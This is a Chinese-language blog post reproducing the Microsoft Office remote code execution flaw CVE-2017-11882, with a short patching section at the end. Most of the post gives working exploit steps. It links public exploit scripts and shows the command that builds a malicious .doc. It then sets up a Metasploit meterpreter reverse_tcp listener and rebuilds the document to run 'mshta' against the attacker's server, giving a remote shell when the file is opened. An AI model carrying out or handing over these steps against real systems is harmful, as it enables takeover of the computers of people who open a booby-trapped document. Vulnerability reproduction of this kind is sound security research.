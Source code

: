 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.cnblogs.com](https://www.cnblogs.com/Hi-blog/p/7878054.html)

**阅读目录**

*   [Preface](#_label00)
*   [影响版本](#_label01)
*   [复现过程](#_label02)

*   [生成漏洞 doc 文件弹计算器](#_label20)
*   [生成漏洞 doc 文件拿 shell](#_label21)

*   [漏洞修复](#_label03)
*   [参考](#_label04)

[回到顶部](#_labelTop)

**Preface**
-----------

　　这几天关于 Office 的一个远程代码执行漏洞很流行，昨天也有朋友发了相关信息，于是想复现一下看看，复现过程也比较简单，主要是简单记录下。

　　利用脚本 [Github 传送地址](https://github.com/starnightcyber/CVE-2017-11882) ，后面的参考链接都有成功的比较详细的案例了。

　　主要是要用到如图中的两个脚本，example 文件夹中有个 doc，应该直接打开就能弹计算器了。

![](https://images2017.cnblogs.com/blog/624934/201711/624934-20171122113928524-1237576422.png)

[回到顶部](#_labelTop)

影响版本
----

*   Office 365
*   Microsoft Office 2000   
*   Microsoft Office 2003   
*   Microsoft Office 2007 Service Pack 3
*   Microsoft Office 2010 Service Pack 2
*   Microsoft Office 2013 Service Pack 1
*   Microsoft Office 2016

[回到顶部](#_labelTop)

**复现过程**
--------

国外最先发布的 poc 地址：https://github.com/embedi/CVE-2017-11882

这里我们使用的是 Ridter 师傅改进过的脚本：https://github.com/Ridter/CVE-2017-11882/

[回到顶部](#_labelTop)

### **生成漏洞 doc 文件弹计算器**

　　生成漏洞 doc 文件，可以弹出计算器如下：（脚本在 Github 传送地址）

```
starnight:CVE-2017-11882 starnight$ python Command_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o test.doc
[*] Done ! output file >> test.doc <<
```

　　用命令生成 test.doc 后，用 Offcie 2013 打开这个文件，可以看到在打开 doc 文件的时候，弹出计算器。

![](https://images2017.cnblogs.com/blog/624934/201711/624934-20171122104018899-1902346095.png)

 　　除了可以弹计算器外，还能获取 shell。

[回到顶部](#_labelTop)

### **生成漏洞 doc 文件拿 shell**

 　这里我们参考链接 2，使用 metasploit，将脚本 [PS_shell.rb](https://github.com/starnightcyber/CVE-2017-11882/blob/master/PS_shell.rb "PS_shell.rb") 放到 metasploit exploit 的某个路径下：

　　我的 kali 下的 metasploit 所在路径是：/usr/share/metasploit-framework， 可以放在如下目录：（这里我们新创建一个 new-exps 目录存放这个脚本）

```
root@kali:/usr/share/metasploit-framework/modules/exploits/windows/new-exps# pwd
/usr/share/metasploit-framework/modules/exploits/windows/new-exps
root@kali:/usr/share/metasploit-framework/modules/exploits/windows/new-exps# ls PS_shell.rb
```

　　这样在启动 msf 时就能直接使用了：

```
msf > use exploit/windows/new-exps/PS_shell
```

　　漏洞利用过程：

[![](http://common.cnblogs.com/images/copycode.gif)](javascript:void(0); "复制代码")

```
msf > use exploit/windows/new-exps/PS_shell 
msf exploit(PS_shell) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(PS_shell) > set lhost 192.168.1.102
lhost => 192.168.1.102
msf exploit(PS_shell) > set uripath abc
uripath => abc
msf exploit(PS_shell) > exploit
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 192.168.1.102:4444 
msf exploit(PS_shell) > [*] Using URL: http://0.0.0.0:8080/abc
[*] Local IP: http://192.168.1.102:8080/abc
[*] Server started.
[*] Place the following DDE in an MS document:
mshta.exe "http://192.168.1.102:8080/abc"
```

[![](http://common.cnblogs.com/images/copycode.gif)](javascript:void(0); "复制代码")

　　从上面可以看出，我们要连接到这个地址：http://192.168.1.102:8080/abc

　　我们需要用上面那个脚本重新生成这样一个存在漏洞的 doc 文件：　　

```
starnight:CVE-2017-11882 starnight$ python Command_CVE-2017-11882.py -c "mshta http://192.168.1.102:8080/abc" -o test.doc
[*] Done ! output file >> test.doc <<
```

　　再用 Office 打开这个 doc，就能拿到 meterpreter 了：

![](https://images2017.cnblogs.com/blog/624934/201711/624934-20171122113100430-173114849.png)

![](https://images2017.cnblogs.com/blog/624934/201711/624934-20171122113410571-1535679967.png)

　　OK， 利用过程就这样吧。（右键在新标签页中打开图片查看更清晰哦）

　　更多手法请参考：

　　　　[CVE-2017-11882 漏洞复现和利用](http://www.freebuf.com/vuls/154978.html)

[回到顶部](#_labelTop)

漏洞修复
----

```
(1)下载https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11882  更新补丁进行修补
 
(2)开启Windows Update功能，定期对系统进行自动更新
```

[回到顶部](#_labelTop)

参考
--

　　[CVE-2017-11882 利用](https://evi1cg.me/archives/CVE_2017_11882_exp.html)

　　[CVE-2017-11882 的复现、利用技巧以及修复方案](https://mp.weixin.qq.com/s/o3Psnsl8OBmVdkUrvcTLsw)